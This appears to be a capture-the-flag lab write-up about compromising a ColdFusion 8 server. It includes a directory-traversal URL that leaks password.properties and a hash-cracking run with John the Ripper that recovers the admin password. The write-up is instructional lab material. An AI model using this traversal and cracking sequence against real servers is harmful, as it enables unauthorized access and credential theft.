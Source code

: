 We focus on port 8500/TCP. 

It is a webserver, and we found that page is made with ColfFusion.

![arctic](https://user-images.githubusercontent.com/42389836/156893517-85eb3aa5-4542-41c7-bddb-b5ada317ef74.png)

We found this page:

https://nets.ec/Coldfusion_hacking

then we try:

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en

We get this string:

```
#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true
```

According to `hashid`, it is probably SHA-1:

```
# hashid string
--File 'string'--
Analyzing '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'
[+] SHA-1
[+] Double SHA-1
[+] RIPEMD-160
[+] Haval-160
[+] Tiger-160
[+] HAS-160
[+] LinkedIn
[+] Skein-256(160)
[+] Skein-512(160)
--End of file 'string'--
```

We crack it:

```
# john -format:RAW-SHA1 string --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)
1g 0:00:00:00 DONE (2022-03-05 18:27) 10.00g/s 51200p/s 51200c/s 51200C/s jodie..babygrl
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

So far, we get access to ColdFusion.

We explore backend and we discover "Scheduled Tasks" under "DEBUGGING & LOGGING" section.
